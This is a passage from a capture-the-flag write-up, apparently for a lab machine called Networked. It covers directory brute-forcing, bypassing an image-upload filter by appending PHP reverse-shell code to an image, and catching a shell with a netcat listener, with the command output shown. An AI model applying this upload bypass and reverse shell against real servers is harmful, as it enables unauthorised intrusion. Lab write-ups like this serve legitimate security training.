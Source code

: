 ```bash

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May 25 05:27:14 2021 -- 1 IP address (1 host up) scanned in 391.88 seconds

```

### 2. Check out the website
The front page is simple, with the text:
  
*Hello mate, we're building the new FaceMash!  
Help by funding us and be the new Tyler&Cameron!  
Join us at the pool party this Sat to get a glimpse*  
  
In the source code there is a comment:
```html
<!-- upload and gallery not yet linked -->
```

Knowing there is an upload and gallery page somewhere, do some searching and find:
- /upload.php, which has a simple upload form. Clicking the button with in file indicates it wants an image file.
- /photos.php, found from running a dirbust on the site as seen below.
```bash
┌──(kali㉿kali)-[10.10.14.24]-[~/Desktop]
└─$ recursebuster -ext php -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -u http://10.129.150.153                                                                     1 ⨯
INFO: Starting recursebuster...
INFO: Dirbusting http://10.129.150.153/
GOOD: Found GET http://10.129.150.153/photos.php [200 OK]
GOOD: Found GET http://10.129.150.153/upload.php [200 OK]
GOOD: Found GET http://10.129.150.153/lib.php [200 OK]
```
Testing out the upload form further shows that anything uploaded using the form is inserted into the photos.php page. The fact that the image is inserted directly means that it should be possible to upload an image that can bypass filters and execute code.

### 3. Get a shell
A few tests went a long way to revealing the nature of the upload form.
- Any non-image extension at the end of the file will not upload.
- Any image with a content-type which is not an image file will not upload.
So the file must end with .jpg (or some image format extension).
  
To evade this filter I simply took a plain image and appended PHP reverse shell code to the end of it. When uploading, this appeared to the application as a normal image file, and because it was placed directly in the page, the PHP code executed.
```bash
┌──(kali㉿kali)-[10.10.14.24]-[~/Desktop]
└─$ nc -lvnp 9999                
listening on [any] 9999 ...
connect to [10.10.14.24] from (UNKNOWN) [10.129.150.153] 56676
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 11:49:30 up 29 min,  0 users,  load average: 0.05, 0.06, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ python -c "import pty; pty.spawn('/bin/bash')"
python -c "import pty; pty.spawn('/bin/bash')"
bash-4.2$ whoami
apache
```
